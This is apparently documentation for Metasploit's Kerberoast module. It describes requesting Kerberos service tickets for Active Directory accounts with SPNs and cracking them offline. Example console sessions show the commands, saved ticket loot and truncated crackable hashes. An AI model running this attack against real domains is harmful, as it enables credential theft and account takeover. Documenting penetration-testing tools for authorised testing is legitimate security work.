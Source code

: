 ## Kerberoast

This module will try to find Service Principal Names (SPN) that are associated with normal user accounts on the specified domain, and then submit requests to retrieve Ticket Granting Service (TGS) tickets for those accounts, which may be partially encrypted with the SPN user's NTLM hash. After retrieving the TGS tickets, offline brute forcing attacks can be performed to retrieve the passwords for the SPN accounts.

## Module usage

- Start `msfconsole`
- Do: `use auxiliary/gather/kerberoast`
- Do: `run rhost=<IP> domain=<FQDN> password=<pass> username=<username> target_user=<optional_user>`
- If a target user has been requested, the module will log in to LDAP, find any SPNs associated with that user, and then request that service ticket.
- If no target user has been requested, the module will request service tickets for all available users.
- A crackable value will be displayed for all valid accounts.


## Options

### DOMAIN / LDAPDOMAIN
The Fully Qualified Domain Name (FQDN). Ex: mydomain.local.

### USERNAME / LDAPUSERNAME
The username to authenticate to the DC with

### PASSWORD / LDAPPASSWORD
The password to authenticate to the DC with

### Rhostname

The hostname of the domain controller. Must be accurate otherwise the module will silently fail, even if users exist without pre-auth required.

## Scenarios

### Target user

To retrieve a TGS for a particular user, set `TARGET_USER`.

```msf
msf auxiliary(gather/kerberoast) > run rhost=20.248.208.9 ldapdomain=msf.local ldappassword=PasswOrd123 ldapusername=AzureAdmin target_user=low.admin
[*] Running module against 20.248.208.9
[+] 20.248.208.9:88 - Received a valid TGT-Response
[*] 20.248.208.9:389 - TGT MIT Credential Cache ticket saved to /home/user/.msf4/loot/20250513155454_default_20.248.208.9_mit.kerberos.cca_656516.bin
[+] 20.248.208.9:88 - Received a valid TGS-Response
[*] 20.248.208.9:389 - TGS MIT Credential Cache ticket saved to /home/user/.msf4/loot/20250513155454_default_20.248.208.9_mit.kerberos.cca_233943.bin
[+] Success:
$krb5tgs$17$low.admin$MSF.LOCAL$*http/abc.msf.local*$faf4a87156a49afd69de3c8b$582f8daec4a5f88fba...
[*] Auxiliary module execution completed
```

### All users

```
msf auxiliary(gather/kerberoast) > run rhost=20.248.208.9 ldapdomain=msf.local ldappassword=PasswOrd123 ldapusername=AzureAdmin
[*] Running module against 20.248.208.9

[+] 20.248.208.9:88 - Received a valid TGT-Response
[*] 20.248.208.9:389 - TGT MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20250513155630_default_20.248.208.9_mit.kerberos.cca_281438.bin
[+] 20.248.208.9:88 - Received a valid TGS-Response
[*] 20.248.208.9:389 - TGS MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20250513155630_default_20.248.208.9_mit.kerberos.cca_360340.bin
[+] 20.248.208.9:88 - Received a valid TGT-Response
[*] 20.248.208.9:389 - TGT MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20250513155630_default_20.248.208.9_mit.kerberos.cca_642663.bin
[+] 20.248.208.9:88 - Received a valid TGS-Response
[*] 20.248.208.9:389 - TGS MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20250513155630_default_20.248.208.9_mit.kerberos.cca_556183.bin

[+] Query returned 2 results.
[+] Success:
$krb5tgs$23$*kerber.roastable$MSF.LOCAL$http/abc2.msf.local*$d335dc07b2c018de2a19e2ecc102bd1d$abc848...
$krb5tgs$17$low.admin$MSF.LOCAL$*http/abc.msf.local*$a1c7c1c1e31e36cdb0721928$b69b48...
[!] NOTE: Multiple encryption types returned - will require separate cracking runs for each type.
[*] To obtain the crackable values for a praticular type, run `creds`:
[*] creds -t krb5tgs-rc4 -O 20.248.208.9 -o <outfile.(jtr|hcat)>
[*] creds -t krb5tgs-aes128 -O 20.248.208.9 -o <outfile.(jtr|hcat)>
[*] Auxiliary module execution completed
```
